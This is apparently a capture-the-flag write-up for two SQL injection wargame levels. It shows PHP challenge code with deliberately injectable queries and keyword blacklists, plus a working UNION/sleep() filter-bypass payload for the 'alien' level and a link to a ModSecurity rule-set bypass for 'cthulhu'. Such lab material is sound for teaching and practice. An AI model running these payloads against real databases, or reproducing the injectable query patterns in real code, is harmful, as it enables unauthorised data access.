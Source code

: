 

## Alien(use now)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

payload : 1%20union%20select%20concat%28char%2898%2D%28now%28%29%252%29%2D%28sleep%283%29%29%29%2C0x646d696e%29%23%27%20union%20select%20concat%28char%2898%2D%21%28now%28%29%252%29%2D%28sleep%281%29%29%29%2C0x646d696e%29%23

`1 union select concat(char(98-(now()%2)-(sleep(3))),0x646d696e)#' union select concat(char(98-!(now()%2)-(sleep(1))),0x646d696e)#`

## CTHULHU([ModSecurity Core Rule Set v3.1.0](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181))

```php
<?php
  include "./welcome.php";
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cthulhu where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("cthulhu");
  highlight_file(__FILE__);
?>
```
